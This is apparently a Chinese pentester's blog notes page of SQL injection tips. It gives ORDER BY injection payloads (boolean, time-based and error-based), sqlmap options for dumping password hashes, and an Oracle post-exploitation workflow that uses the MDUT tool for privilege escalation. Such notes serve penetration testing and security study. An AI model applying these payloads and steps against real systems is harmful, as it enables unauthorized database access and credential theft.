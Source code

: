 ```yaml
---
title: "SQL注入在实战中的Tips合集"
slug: "sqli-tricks-in-pentest"
description: "已经...要....变成脚本小子的模样了!!!"
date: 2023-07-05T21:37:07+08:00
categories: ["NOTES&SUMMARY"]
series: []
tags: ["PENTEST", "SQLi"]
draft: false
toc: true
---
```


锐意更新中:)

----

## order by注入

老生常谈，参数中出现可能为字段或表名、或出现排序有关的（比如desc, asc）就会被怀疑是sql注入点，但不是所有这种“疑似能注入”的地方都能被注——或者说重点关注什么样的字段是有说法的，这一点结合sql注入防御会更好理解

以php为例，php.ini可以设置`magic_quotes_gpc=on`开启对引号的转义，mysql中设`secure_file_priv=null`，代码中使用PDO预编译并设置

![image-20230705224758318](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230705224758318.png)

以上三项如果设置有误同样会导致报错注入的产生

java中的防御步骤类似，除了叠waf以外 也无非是转义/预编译、黑/白名单、设权限三板斧，后两者先不论， **mybatis**在对参数进行预处理时是不可以对order by后的参数使用`#{}`的，而是只可以使用`${}`！原因时order by语句后的字段名或字段位置是不可以加引号的，而使用预编译则一定会带`'`，导致可能出现的注入（普通预编译也会这样）；而**Hibernate**相对来说可以避免这一问题

而order by注入本身由于语义的原因 是不能直接使用`and 1=1`来判断的，需要用到条件语句做嵌套，举例：

```sql
select * from admin order by if(1=1,username,password);	# example
select * from admin order by if((substr((select user()),1,1)='r'),username,password);
```

时间盲注也不能简单使用`sleep()`，因为会对查询的每条内容执行排序 可能会造成ddos，需要用到子查询

```sql
select * from admin order by if((substr((select user()),1,1)='r'),sleep(5),password);	# may ddos
select * from admin order by if((substr((select user()),1,1)='r'),(select 1 from (select sleep(2)) as b),password);
```

报错

```sql
select * from admin order by (extractvalue(1,concat(0x3a,version())),1);
```

## sqlmap实用参数

官方文档：https://github.com/sqlmapproject/sqlmap/wiki/Usage

- `-p "<param>"`：指定注入参数，如遇POST+json类型的请求包（或需要自定义注入位置） 在要注入的位置加`*`
- `-U "CU" --passwords`：爆破当前用户的密码hash，`--passwords`爆所有用户hash
- `--csrf-token="<csrf name>"`：指定页面隐藏的csrf-token参数，可通过`--csrf-url="<url>"`指定token来源的地址，还可以通过`--eval`配合处理多个参数（效果拔群）
- `--gui`：启动自带GUI界面，包含各种参数的使用说明

![image-20230705174602794](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230705174602794.png)

- sqlmap根目录下自带一个`sqlmapapi.py` 封装了一些接口，可以通过这些接口发起扫描（不常见也不常用，但应该对造轮子有帮助

![image-20230705174431111](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230705174431111.png)

## sqlmap坑点

- `--batch`在windows和linux上表现不同
- 如果不是`-r`指定请求包，请注意sqlmap发包是否会导致相应包全是302，如果出现这种情况 建议指定部分请求头
- 小概率出现：别人电脑上能跑出来注入 但你不行的玄学情况，偶发性bug 暂未找到原因

## Oracle注入及后续利用

单独把Oracle数据库拿出来说的原因是sqlmap并不支持对它执行`--os-cmd`或`--os-shell`，所以与mysql, mssql相比稍有区别

1. 收集信息，库名、表名一把梭，列列重要数据 ~~（刷分用~~

2. 查当前用户的密码hash并尝试爆明文

```
--is-dba				# 是否dba
-U "CU" --passwords		# 当前用户密码
--passwords				# 所有用户密码
```

3. 用sql-shell查当前SID和当前ip，尝试外连

```
select instance_name from v$instance
select sys_context('userenv','ip_address') from dual
```

4. 如果可以外连，用 [Multiple Database Utilization Tools](https://github.com/SafeGroceryStore/MDUT)做后续利用

*此处举例用户名为sys（是dba），用户名这里需要改为`sys as sysdba`才能正确连接！

![image-20230705180830895](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230705180830895.png)

MDUT自带了HTTP隧道功能，还有常见的提权一把梭+列系统文件

5. *如果不能外连但为高权限用户，尝试执行java代码反弹（待补充）

6. Navicat或DBeaver查看数据库内具体内容；Navicat可以使用对应的隧道